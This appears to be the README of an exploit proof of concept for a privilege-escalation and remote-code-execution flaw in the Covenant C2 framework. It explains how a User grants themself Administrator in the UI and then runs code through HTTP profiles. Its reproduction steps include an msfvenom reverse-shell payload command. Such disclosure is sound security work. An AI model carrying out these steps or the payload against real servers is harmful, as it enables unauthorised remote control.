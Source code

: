 # Covenant Low Privileged User RCE

Both the current [master](https://github.com/cobbr/Covenant/tree/5decc3ccfab04e6e881ed00c9de649740dac8ad1) and [dev](https://github.com/cobbr/Covenant/tree/bcb9a6c79ff629f939e22bb314ff2d2d9a7fe7bb) branches of Covenant are vulnerable to an escalation of privilege from User to Administrator. The API [blocks editing roles](https://github.com/cobbr/Covenant/blob/5decc3ccfab04e6e881ed00c9de649740dac8ad1/Covenant/Controllers/ApiControllers/CovenantUserApiController.cs#L298) unless you are an Administrator, however in the UI itself it's [possible for a User to give themself the Administrator role](https://github.com/cobbr/Covenant/blob/5decc3ccfab04e6e881ed00c9de649740dac8ad1/Covenant/Components/CovenantUsers/EditCovenantUser.razor).

With the Administrator role, the user has access to the most powerful feature of Covenant, the ability to create HTTP profiles. This feature is [restricted to Administrators](https://github.com/cobbr/Covenant/blob/5decc3ccfab04e6e881ed00c9de649740dac8ad1/Covenant/Core/CovenantService.cs#L3616). Although there is no built-in way to get a shell on a Covenant server, the HTTP profiles feature essentially enables running C# code on the server as a way of customizing traffic sent to and from implants.

The C# code is limited by the fact that the built-in Covenant compiler [restricts the `System` namespace](https://github.com/cobbr/Covenant/blob/5decc3ccfab04e6e881ed00c9de649740dac8ad1/Covenant/Core/Common.cs#L85) to `System.Private.CoreLib.dll` which means `Process` can't be directly used. However [previous excellent research](https://web.archive.org/web/20220126104152/https://blog.null.farm/hunting-the-hunters) on Covenant by 0xcoastal found a blog post by Tim Malcolmvetter that showed that only the `Activator` and `Assembly` classes are required to perform process injection of arbitrary .NET assemblies.

The privilege escalation part of this attack must be performed manually as only the Blazor UI is vulnerable and not the API, and the Blazor stuff is a pain to automate.

The RCE is automated by `covenant_rce.py`, which interacts with the API to create a HTTP profile, a HTTP listener, then communicates with the listener to trigger a provided .NET assembly to run.

## Reproduction

1. In the Covenant UI, escalate privileges from User to Administrator by clicking Users -> Your Username -> Roles -> Administrator -> Edit Roles
2. In `covenant_rce.py`, edit variables at the top of the script
3. Generate csharp shellcode, e.g. `msfvenom -f csharp -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=443 EXITFUNC=thread`
4. Copy shellcode buffer into `Shellcode.cs` and compile the `ShellcodeAssembly` project in Release mode in Visual Studio
5. Run `python covenant_rce.py`

## References

* https://web.archive.org/web/20220126104152/https://blog.null.farm/hunting-the-hunters
* https://github.com/malcomvetter/ManagedInjection
